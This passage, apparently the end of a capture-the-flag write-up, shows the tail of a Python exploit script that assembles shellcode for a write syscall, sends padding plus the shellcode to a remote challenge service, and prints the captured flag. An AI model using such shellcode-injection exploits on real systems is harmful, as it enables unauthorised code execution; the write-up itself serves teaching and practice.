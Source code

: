 ```python

    // write
    mov rdx, rax
    mov rax, 1
    mov rdi, 1
    mov rsi, rsp
    syscall
''')
print('Length of shellcode 3:', len(shellcode))
p.send(b'A'*0xf + shellcode) # this overwrites the previous shellcode, so we need 0xf bytes of padding

# Get flag
print(p.recv().decode())
```
{: file='solve.py'}

We run it on remote and get the flag:

![flag](flag.png)
_The coveted curly brackets_